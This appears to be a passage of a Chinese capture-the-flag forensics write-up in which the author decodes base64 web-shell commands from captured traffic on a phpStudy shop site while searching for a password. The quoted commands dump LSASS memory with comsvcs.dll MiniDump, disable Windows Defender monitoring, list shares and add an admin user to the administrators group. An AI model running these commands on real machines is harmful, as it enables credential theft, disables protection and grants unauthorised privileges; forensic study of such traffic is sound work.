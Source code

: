 **右键——base64——开始为“1”**

​![在这里插入图片描述](assets/net-img-f532e4a7bc4a4459ae6e0b6b85dcc79f-20240707120833-3fu60x0.png)  
解码得到；

> cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]

**那就进行解码找密码呗，密码肯定会很明显的，比如啥password显示或者user（用户）等，反正肯定不会像上面那样的；（查找也是需要点技巧，流量包的建议先从大往小查，问就是经验）**

> cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net share&echo [S]&cd&echo [E]  
> cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&powershell -ep bypass Set-Mppreference -DisableRaltimeMonitoring $true&echo [S]&cd&echo [E]  
> cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]

这边发现个特别像账号密码的，尝试提交发现不对，简单查了一下发现这就是个将名为 `admin`​ 的用户添加到本地管理员组而已，那我们继续找；

> cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators admin /add&echo [S]&cd&echo [E]
